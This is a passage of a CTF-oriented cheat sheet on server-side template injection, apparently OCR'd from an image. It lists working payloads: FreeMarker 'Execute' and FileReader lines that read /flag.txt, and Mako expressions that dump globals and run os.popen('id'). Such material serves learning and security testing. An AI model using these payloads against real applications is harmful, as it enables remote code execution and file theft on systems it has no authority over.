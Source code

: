     - Use `${.globals}` to see available objects
    - Use `${.version}` to identify FreeMarker version
4. **Read the flag**:
    
    - Direct approach: `<#assign ex="freemarker.template.utility.Execute"?new()>${ex("cat /flag.txt")}`
    - File reading: `${new java.io.BufferedReader(new java.io.FileReader("/flag.txt")).readLine()}`

Remember that in CTF challenges, the flag might be in a non-standard location, so enumeration is key. Try listing directories with commands like `ls -la` before targeting specific files.

# SSTI for Mako Templates (Python)

Mako is a template library written in Python, often used with web frameworks like Pylons and Pyramid. Here's how to exploit Server-Side Template Injection (SSTI) vulnerabilities in Mako templates for CTF challenges:

## Basic Testing

To verify a Mako SSTI vulnerability:

```
${7 * 7}
```

If it returns `49`, you have a Mako template injection vulnerability.

## Basic Exploitation Techniques

### Expression Evaluation

```
${7 * 7}
${len('hello')}
${"hello" + " world"}
```

### Accessing Python Objects

```
${dir()}
${locals()}
${globals()}
${self.__dict__}
```

### Code Execution (Mako-specific)

```
<%
    import os
    x = os.popen('id').read()
%>
${x}
```

